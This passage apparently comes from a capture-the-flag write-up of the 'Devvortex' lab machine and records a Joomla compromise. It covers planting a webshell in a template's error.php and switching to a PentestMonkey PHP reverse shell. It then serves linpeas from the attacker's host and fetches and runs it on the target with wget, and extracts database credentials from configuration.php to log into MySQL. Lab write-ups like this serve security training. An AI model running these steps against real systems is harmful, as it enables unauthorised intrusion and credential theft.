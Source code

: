 ```
<script>document.getElementById("cmd").focus();</script>
</html>
```
I can get the webshell after reaching the address `http://dev.devvortex.htb/templates/cassiopeia/error.php`. The page `error.php` seems to be updated regularly, so I need to be fast.
This webshell is quite limited so I changed the payload to `PHP PentestMonkey`, also available on `revshells.com`.

We can see that there is a user named `logan` but we have not the permissions to read the file `/home/logan/user.txt`:
```
$ ls -l /home
total 4
drwxr-xr-x 3 logan logan 4096 Nov 21 11:04 logan
$ ls -l /home/logan
total 4
-rw-r----- 1 root logan 33 Jan 20 07:06 user.txt
```

I will use linpeas to check if I can login as logan. On my machine, I set up an HTTP server to download linpeas:
```
$ls
linpeas.sh
$python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```
And, from the attacked machine:
```
$ wget http://10.10.14.59:8080/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```
The `linpeas.sh` script seems to hang at `Checking for TTY (sudo/su) passwords in audit logs`. I will update the script to remove this part and run the script again.

The script shows that a password appears in a PHP configuration file. This file is `configuration.php`. It contains the following information:
```
<?php
class JConfig {
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'lewis';
	public $password = 'P4ntherg0t1n5r3c0n##';
	public $db = 'joomla';
	public $secret = 'ZI7zLTbaGKliS9gq';
}
```
This gives us the credentials to log into the MySQL server:
```
www-data@devvortex:/$ mysql -u lewis -p
mysql -u lewis -p
Enter password: P4ntherg0t1n5r3c0n##

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 56
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
```